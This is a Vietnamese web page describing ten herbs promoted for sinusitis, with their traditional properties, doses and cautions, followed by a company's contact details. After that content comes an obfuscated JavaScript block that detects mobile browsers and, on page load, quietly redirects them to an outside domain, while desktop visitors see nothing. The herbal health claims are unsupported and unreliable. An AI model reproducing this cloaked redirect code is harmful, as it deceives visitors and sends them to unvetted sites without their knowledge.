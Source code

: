 10 loại thảo dược hỗ trợ trị viêm xoang

1. Cỏ hôi 
Còn có tên khác là cỏ cứt lợn. Tên khoa học là Ageratum conyzoides L. 

Ở Việt Nam, cây mọc hoang dại trên mọi loại địa hình. Người ta dùng toàn cây bỏ rễ, thu hái quanh năm, tốt nhất vào mùa hạ, đem về rửa sạch đất cát, dùng tươi hay phơi khô, nhưng thường dùng tươi hơn.

Cỏ hôi vị đắng, tính mát, có tác dụng thanh nhiệt, giải độc, tiêu sưng và cầm máu. Thường dùng làm thuốc chống viêm, chống phù nề, chống dị ứng trong điều trị các bệnh mũi xoang.

2. Cỏ mực
Tên khác là cỏ nhọ nồi, hạn liên thảo. Tên khoa học là Eclipta prostrata(L.) L. 

Cỏ nhọ nồi có vị ngọt, chua; tính mát; vào các kinh can và thận có tác dụng tư âm (bổ âm), bổ thận, lương huyết (mát máu), chỉ huyết (cầm máu).

3. Đại bi
Tên khác là mai phiến, mai hoa băng phiến, từ bi, long não hương. Tên khoa học: Blumea balsamifera.

Thành phần hóa học trong đại bi chủ yếu là tinh dầu và chất băng phiến. Các loại tinh dầu trong đại bi gồm d.borneol, camphor, limonen, acid palmitic, acid myristic... 

Bộ phận dùng của đại bi là lá. Lá có mùi thơm và được thu hái quanh năm, nhưng tốt nhất là mùa hè, sau đó rửa sạch và phơi để dùng dần.

Đại bi có vị cay đắng và tính ôn; quy được vào 2 kinh phế và thận. Có công dụng tiêu ứ, trừ thấp, sát trùng, hoạt huyết, tiêu thũng. Tác dụng kháng khuẩn, chống nấm, kháng viê, giảm đau.

4. Thương nhĩ tử
Còn gọi là ké đầu ngựa, có tên khoa học là Xanhthium trumarium. 

Quả ké đầu ngựa (thương nhĩ tử) có vị cay, đắng, tính ấm, hơi có độc, vào kinh phế; có tác dụng tán phong, trừ thấp, thông mũi, giảm đau đầu; thường dùng để chữa viêm xoang như: Chảy nước mũi trong và hắt hơi, ngạt mũi; bệnh phong hàn thấp tý (phong thấp đau nhức); mẩn ngứa ngoài da...

5. Tân di hoa
Có tên khoa học là Magnolialiliflora Desr. Tân di là nụ hoa mộc lan đã qua chế biến để làm thuốc. Loại dược liệu này có kích thước nhỏ, dạng hình trứng, có lông trắng xám mịn và dày bao phủ bên ngoài, màu chuyển sang xám đen khi ở dạng khô. 

Cây mộc lan chủ yếu xuất hiện ở Trung Quốc, vì vậy phần lớn vị thuốc tân di cũng được du nhập vào nước ta.

Tân di có vị cay, tính ấm, quy vào kinh phế và vị. Vì vậy dược liệu này có các công dụng như thông khiếu, chỉ thống, giải biểu, khu phong. Đây là bài thuốc được sử dụng khá phổ biến để trị viêm mũi, viêm xoang, đau đầu, chảy nước mũi, tắc nghẹt mũi.

6. Tía tô
Tên khác là é tía, tử tô, xích tô, tên khoa học là Perilla frutescens. 

Tía tô là vị thuốc được đông phương y dược xếp vào loại giải biểu (làm cho ra mồ hôi), thuộc nhóm phát tán phong hàn (nhóm do lạnh gây bệnh), cần chữa bằng cách cho ra mồ hôi, khỏi sốt.

Tía tô có tính ấm, vị cay, vào 3 kinh phế - tâm - tỳ, không độc. Lá dùng làm gia vị rất phổ biến đồng thời là vị thuốc rất hay dùng để trừ cảm mạo. Hạt làm trà uống và thuốc hạ khí, cành làm thuốc an thai.

Liều dùng: Vò nát một nắm lá tía tô pha cùng nước ấm để uống trong ngày. Tía tô cũng được kết hợp với các vị thuốc khác để sắc uống hoặc xông hơi.

Kiêng kỵ: Người biểu hư, tự ra mồ hôi cấm dùng.

7. Ngư tinh thảo
Tên khác là dấp cá, diếp cá, tên khoa học là Houttuynia cordata Thunb.

Ở Việt Nam có thể hái ăn sống vào bất kỳ lúc nào, vào mùa hè, thu, lúc cây xanh tốt. Hái về, bỏ hết rễ, phơi khô là được.

Dấp cá có vị chua, tính hơi hàn, vào kinh can, phế. Có tác dụng thanh nhiệt, tiêu thũng, thấm thấp.

Liều dùng: Thường xuyên ăn diếp cá trong bữa cơm để tinh dầu và chất kháng sinh trong diếp cá hỗ trợ giảm sưng, giảm viêm do viêm xoang.

Kiêng kỵ: Hư hàn không dùng được.

8. Bạch chỉ
Tên khoa học: Angelica Dahurica Benth. Et Hook. F. 

Bạch chỉ cây thảo sống lâu năm, cao 1 - 2m, được trồng nhiều ở các tỉnh đồng bằng hay các vùng núi phát triển rất tốt.

Bạch chỉ có vị cay tính ôn, vào 3 kinh Phế, Vị, Đại trường. Tác dụng chống viêm, dùng trong tai mũi họng. Bột làm từ bạch chỉ và băng phiến, hít vào lỗ mũi, có tác dụng trị đầu đau, răng đau, thần kinh sinh ba đau.

9. Cát cánh
Tên khoa học: Platycodon Grandiflorum (Jacq.) A. DC. 

Cây trồng bằng hạt đang được di thực vào nước ta. Sau khi đào rễ về rửa sạch, bỏ tua rễ, bỏ vỏ ngoài hoặc không bỏ vỏ phơi khô, tẩm nước cắt lát dùng. Chích cát cánh là cát cánh chế mật sao vàng.

Cát cánh có tính hơi ôn, vị ngọt, cay, đắng, vào kinh Tỳ. Công dụng: Long đờm, lợi họng, tiêu mủ; dùng trong các trường hợp ho nhiều đờm, buồn bực khó chịu trong ngực, hầu họng sưng đau, khàn tiếng, phổi sưng thổ đờm, các vết lở loét mưng mủ...

Kiêng kỵ: Người bị lao phổi, ho lâu ngày, viêm phế quản ho khan ít đờm, kiêng uống riêng 1 vị cát cánh với lượng nhiều và thời gian kéo dài. Người viêm loét dạ dày, xuất huyết dạ dày kiêng uống nhiều.

10. Hoàng cầm
Hoàng cầm có vị đắng, tính lạnh, quy vào 5 kinh bao gồm: Tâm, phế, can, đởm và đại trường. Có tác dụng thanh nhiệt, táo thấp, cầm máu, an thai, an thần, mất ngủ, viêm cơ tim, thấp khớp cấp, hạ sốt, làm giảm các triệu chứng do viêm phổi.

Kiêng kỵ: Người tỳ vị hư hàn nhưng không có thấp nhiệt, thực thỏa, phụ nữ mang thai không nên sử dụng.

THÔNG TIN LIÊN HỆ:

CÔNG TY TNHH THƯƠNG MẠI VIEMXOANGMUI


ĐỊA CHỈ: 2B Phổ Quang, Phường 2, Quận Tân Bình, Thành phố Hồ Chí Minh


SĐT: 098.9999.888 - 0399.777.999


EMAIL: VIEMXOANGMUI@GMAIL.COM

<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "https://www.tenmienneww.click/xoang",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>
